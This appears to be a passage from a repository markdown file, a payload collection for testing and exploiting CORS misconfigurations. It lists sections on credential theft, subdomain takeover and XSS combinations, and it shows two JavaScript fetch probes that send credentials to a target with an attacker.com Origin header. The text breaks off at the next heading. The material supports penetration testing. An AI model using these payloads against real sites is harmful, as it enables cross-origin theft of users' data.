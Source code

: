 # Complete CORS (Cross-Origin Resource Sharing) Payloads

This document contains a comprehensive collection of CORS-related payloads for testing and exploiting misconfigurations.

## Table of Contents
1. [Basic CORS Testing Payloads](#basic-cors-testing-payloads)
2. [Origin Reflection Payloads](#origin-reflection-payloads)
3. [Null Origin Payloads](#null-origin-payloads)
4. [Prefix Matching Payloads](#prefix-matching-payloads)
5. [Suffix Matching Payloads](#suffix-matching-payloads)
6. [Subdomain Takeover Payloads](#subdomain-takeover-payloads)
7. [Advanced Exploitation Payloads](#advanced-exploitation-payloads)
8. [Pre-flight Request Payloads](#pre-flight-request-payloads)
9. [Credential Theft Payloads](#credential-theft-payloads)
10. [XSS Combined Payloads](#xss-combined-payloads)

---

## Basic CORS Testing Payloads

```javascript
// Simple CORS test
fetch('https://target.com/api/data', {
  method: 'GET',
  headers: {
    'Origin': 'https://attacker.com'
  },
  credentials: 'include'
})
.then(response => response.json())
.then(data => console.log(data))
.catch(error => console.error('Error:', error));
```

```javascript
// Test with different HTTP methods
fetch('https://target.com/api/data', {
  method: 'POST',
  headers: {
    'Origin': 'https://attacker.com',
    'Content-Type': 'application/json'
  },
  body: JSON.stringify({test: 'data'}),
  credentials: 'include'
});
```

---

## Origin Reflection Payloads

